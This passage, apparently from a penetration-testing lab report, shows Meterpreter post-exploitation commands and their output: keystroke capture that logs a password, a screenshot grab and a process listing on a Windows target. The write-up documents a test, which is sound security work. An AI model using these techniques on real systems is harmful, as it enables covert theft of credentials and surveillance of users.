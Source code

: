 #### 4.6.5 Keylogging

I demonstrated keylogging capabilities using:

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes ...
<Shift>Hello everyone<Shift><Shift><Shift><Shift><Shift><Shift><Shift>
!<Shift> !!<CR>
password <Shift>: admin123

meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

This demonstrated the ability to capture sensitive information such as passwords entered on the target system.

#### 4.6.6 Screenshot Capture

I captured screenshots of the target system:

```
meterpreter > screenshot
Screenshot saved to: /home/shuvo/ajHLsaHQ.jpeg
```

#### 4.6.7 Process Information

I listed running processes on the target system and demonstrated the ability to migrate between processes:

```
meterpreter > ps
PID    PPID   Name
---    ----   ----
444    348    services.exe
452    348    lsass.exe
460    348    lsm.exe
564    444    svchost.exe
632    444    svchost.exe
684    444    svchost.exe
748    444    spoolsv.exe
792    444    svchost.exe
840    444    svchost.exe
952    444    svchost.exe
1012   444    svchost.exe
1020   444    svchost.exe
1116   444    taskhost.exe
1172   444    taskhost.exe
1328   792    dwm.exe
1372   1296   explorer.exe
1616   444    svchost.exe
1744   1372   notepad.exe
1840   1372   iexplore.exe
1924   1888   GoogleCrashHandler.exe
1932   1888   GoogleCrashHandler64.exe
2036   444    svchost.exe
```
